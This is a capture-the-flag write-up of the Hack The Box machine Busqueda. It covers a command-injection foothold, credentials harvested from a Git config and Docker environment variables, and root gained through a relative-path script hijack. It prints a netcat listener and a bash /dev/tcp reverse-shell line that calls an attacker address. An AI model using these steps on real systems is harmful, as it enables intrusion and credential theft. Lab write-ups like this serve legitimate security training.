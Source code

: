 # HTB Busqueda

### Scope: 10.129.228.217

To begin, we performed an **SYN scan** on the target (first 1000 ports) with aggressive scanning enabled:

```bash
nmap -sS -A 10.129.228.217 -oN scan.txt
```

#### Nmap Scan Results

The scan revealed two open ports:

- **22/tcp (SSH)** – Running OpenSSH 8.9p1 on Ubuntu
- **80/tcp (HTTP)** – Hosting an Apache 2.4.52 web server, with a Python-based Flask application using Werkzeug 2.1.2

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
```

The hostname `searcher.htb` was identified, so an entry was added to `/etc/hosts`:

```bash
sudo echo "10.129.228.217 searcher.htb" >> /etc/hosts
```

### Web Enumeration

Navigating to `http://searcher.htb`, we encountered a **Flask-based web application** named **Searcher**. The application’s footer provided useful insights into its dependencies and framework versions.

![](./assets/searcher-flask-app.png)
![](./assets/searcher-footer.png)

#### Identifying a Known Vulnerability

Upon investigating the **Searchor** project on GitHub, a **vulnerability disclosure** was found, along with a **proof-of-concept (PoC) exploit** for **Searchor 2.4.0**.

- GitHub Security Advisory: [Searchor GitHub](https://github.com/ArjunSharda/Searchor/security)
- PoC Exploit: [GitHub PoC](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

### Exploiting Command Injection

The PoC exploit leverages a **command injection vulnerability** in the search functionality. The crafted payload executes arbitrary Python commands via **unsanitized user input**.

#### Reverse Shell Execution

After modifying the PoC, we executed the following steps to gain a foothold:

1. **Start a netcat listener:**
   ```bash
   nc -lvnp 1337
   ```
2. **Execute the exploit script:**
   ```bash
   ./exploit.sh searcher.htb 10.10.16.32 1337
   ```

This granted a **reverse shell** as the user `svc`.

![](./assets/user.png)

---

## Privilege Escalation

### Credential Discovery

Examining the application directory, we discovered a **Git repository configuration file** (`.git/config`), which contained hardcoded credentials:

```ini
[remote "origin"]
    url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

Additionally, a **Gitea instance** (`gitea.searcher.htb`) was identified, prompting an update to `/etc/hosts`:

```bash
sudo echo "10.129.228.217 gitea.searcher.htb" >> /etc/hosts
```

### Shell Upgrade

To enhance shell stability, we spawned an **interactive TTY shell**:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Abusing Sudo Privileges

Running `sudo -l` with **svc** (using the discovered `cody` password) revealed **root execution privileges** on a Python script:

```bash
(ALL) NOPASSWD: /usr/bin/python3 /opt/scripts/system-checkup.py *
```

However, **reading permissions were restricted**, preventing direct inspection of the script.

### Enumerating Running Containers

Executing `system-checkup.py` with `docker-ps` revealed two running **Docker containers**:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
```

- **Gitea container (port 3000)**
- **MySQL database container (port 3306, loopback only)**

We then **inspected the container environment variables** looking for credentials:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{ .Config.Env }}' <container_id>
```

This yielded **MySQL root credentials**:

```
MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF
```

and a **Gitea database password**:

```
GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh
```

### Gaining Database Access

Since MySQL was bound to **127.0.0.1:3306**, we used the **root credentials** to access it locally:

```bash
mysql -h 127.0.0.1 -u root -p
```

From the **`gitea` database**, we extracted user details:

```sql
SELECT id, name, passwd FROM user;
```

This included the **administrator** username, which we then paired with `yuiu1hoiu4i5ho1uh` to log in to **Gitea**.

### Exploiting a Misconfigured Python Script

Inside **Gitea**, we located the repository containing `system-checkup.py`, which included an **unsafe execution call**:

```python
elif action == 'full-checkup':
    try:
        arg_list = ['./full-checkup.sh']
        print(run_command(arg_list))
    except:
        print('Something went wrong')
```

Since Python **searches the current directory first** for relative paths, we exploited this by **creating a malicious script** in the expected location:

```bash
echo '#!/bin/bash' > full-checkup.sh
echo 'bash -i >& /dev/tcp/10.10.16.32/5656 0>&1' >> full-checkup.sh
chmod +x full-checkup.sh
```

Executing the vulnerable script as `root`:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Triggered a **reverse shell as root**, successfully **compromising the system**.
![](./assets/root.png)
---

## Conclusion

The **Busqueda** machine demonstrated several **critical security weaknesses**:

1. **Unsanitized User Input** – Allowed **command injection**, leading to **initial access**.
2. **Password Reuse** – Hardcoded credentials enabled **lateral movement**.
3. **Inappropriate Application Bundling** – Exposed unnecessary services, increasing the attack surface.
4. **Custom System Administration Practices** – Poorly implemented scripts enabled **privilege escalation**.

This challenge underscores the importance of **input validation, secure credential management, minimal software exposure, and adherence to best practices** in system administration.
